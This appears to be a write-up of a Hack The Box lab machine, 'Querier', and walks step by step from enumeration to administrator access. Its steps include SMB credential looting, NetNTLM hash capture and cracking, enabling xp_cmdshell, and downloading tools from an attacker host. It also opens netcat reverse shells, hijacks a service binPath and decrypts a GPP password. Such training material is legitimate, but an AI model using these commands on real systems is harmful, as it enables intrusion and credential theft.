






# Querier

In this room we are going to attempt to get root in the **Querier** machine which its theme is Windows Privilege Escalation!

Let's begin.

### Port Enumeration

Let's first start with a simple port enumeration command:

```
nmap <ip> -A -T4 -p-
```

> PORT      STATE SERVICE       VERSION
> 135/tcp   open  msrpc         Microsoft Windows RPC
> 139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
> 445/tcp   open  microsoft-ds?
> 1433/tcp  open  ms-sql-s      Microsoft SQL Server 2017 14.00.1000.00; RTM
> | ms-sql-ntlm-info: 
> |   10.10.10.125:1433: 
> |     Target_Name: HTB
> |     NetBIOS_Domain_Name: HTB
> |     NetBIOS_Computer_Name: QUERIER
> |     DNS_Domain_Name: HTB.LOCAL
> |     DNS_Computer_Name: QUERIER.HTB.LOCAL
> |     DNS_Tree_Name: HTB.LOCAL
> |_    Product_Version: 10.0.17763
> | ms-sql-info: 
> |   10.10.10.125:1433: 
> |     Version: 
> |       name: Microsoft SQL Server 2017 RTM
> |       number: 14.00.1000.00
> |       Product: Microsoft SQL Server 2017
> |       Service pack level: RTM
> |       Post-SP patches applied: false
> |_    TCP port: 1433
> |_ssl-date: 2023-07-28T15:25:26+00:00; 0s from scanner time.
> | ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
> | Not valid before: 2023-07-28T15:12:18
> |_Not valid after:  2053-07-28T15:12:18
> 5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
> |_http-server-header: Microsoft-HTTPAPI/2.0
> |_http-title: Not Found
> 47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
> |_http-server-header: Microsoft-HTTPAPI/2.0
> |_http-title: Not Found
> 49664/tcp open  msrpc         Microsoft Windows RPC
> 49665/tcp open  msrpc         Microsoft Windows RPC
> 49666/tcp open  msrpc         Microsoft Windows RPC
> 49667/tcp open  msrpc         Microsoft Windows RPC
> 49668/tcp open  msrpc         Microsoft Windows RPC
> 49669/tcp open  msrpc         Microsoft Windows RPC
> 49670/tcp open  msrpc         Microsoft Windows RPC
> 49671/tcp open  msrpc         Microsoft Windows RPC
> Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
>
> Host script results:
> | smb2-time: 
> |   date: 2023-07-28T15:25:22
> |_  start_date: N/A
> | smb2-security-mode: 
> |   311: 
> |_    Message signing enabled but not required

From the output of the nmap scan we performed we know now that the machine has several RPC ports, HTTP ports, SMB and MSSQL.

Since RPC ports are hard to exploit let us move on to SMB and MSSQL. 

### SMB

First thing we do is list the shares available on the target machine. We can anonymously login into the Reports share and download the .xlsm file.


To analyze the file we can do this one of several ways:

1. Use Excel and access which Macros are in the file

2. Use `binwalk` or `unzip` to access information stored in the Macros

   ```
   binwalk Currency\ Volume\ Report.xlsm -C files -e
   unzip Currency\ Volume\ Report.xlsm
   ```


On Excel:



Accessing the contents of the vbaProject.bin file:



Either way we are going to find a set of credentials:

- Username: reporting
- Pwd: PcwTWTHRwryjc$c6

Great! We are done with SMB, we can move on to the SQL port.

### SQL

If you are having trouble from this point on use this resource: https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server

Now we should try and login to the SQL server using the credentials above. For that we have two options using `sqsh` or `impacket-mssqlclient` :

```
impacket-mssqlclient reporting:'PcwTWTHRwryjc$c6'@10.10.10.125 -db volume -windows-auth
```

After logging in we can try to execute a command to enable our user to execute console commands. Unfortunately, our current user does not have privileges to perform this action:


#### Steal NetNTLM hash / Relay attack

We can try to escalate to another user which may have permission to execute console commands by stealing an NTLM hash. We can perform this attack by starting an SMB Server on our attacker machine and trying to connect to it:

```
sudo responder -I tun0
xp_dirtree '\\10.10.16.8\any\thing'
```

Great! Responder is able to catch the hash for the user `mssql-svc`:


Let's try to crack it using hashcat:

```
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```


Yes! We now have the credential set: `mssql-svc:corporate568`.

Let's log in again into mssql with this new user and try to run commands:

```
impacket-mssqlclient mssql-svc:'corporate568'@10.10.10.125 -db volume -windows-auth
enable_xp_cmdshell
xp_cmdshell whoami
```

Great it is working. Now we can upload a payload or a netcat binary to get a shell we can work with.

```
xp_cmdshell powershell -c "Invoke-WebRequest -Uri http://10.10.16.8/nc.exe -OutFile C:\Reports\nc.exe"
xp_cmdshell powershell -c "Invoke-WebRequest -Uri http://10.10.16.8/PowerUp.ps1 -OutFile C:\Reports\PowerUp.ps1"
xp_cmdshell powershell -c "Invoke-WebRequest -Uri http://10.10.16.8/winPEASx64.exe -OutFile C:\Reports\peas.exe"
xp_cmdshell c:\Reports\nc.exe 10.10.16.8 4444 -e cmd.exe
```


### Foothold


### Privilege Escalation

#### Path 1: PowerUp

Execute Invoke-AllChecks:



We can further explore this service with the commands below:

```
sc query UsoSvc
sc qc UsoSvc
```



We know the service is running as LocalSystem. Now we need to know if we can change the service's binaryPath

```
sc config UsoSvc binPath="C:\Reports\nc.exe 10.10.16.8 5555 -e cmd.exe"
```



```
sc stop UsoSvc
sc start UsoSvc
```

Start a netcat listener and congratulations you are root!

#### Path 2: Winpeas

Another way is to upload WinPeas and you will get the Administrator password inside the groups.xml file which we can decrypt using:


```
gpp-decrypt CiDUq6tbrBL1m/js9DmZNIydXpsE69WB9JrhwYRW9xywOz1/0W5VCUz8tBPXUkk9y80n4vw74KeUWc2+BeOVDQ
```

`Administrator:MyUnclesAreMarioAndLuigi!!1!`

```
impacket-psexec Administrator@10.10.10.125
```



Congrats!
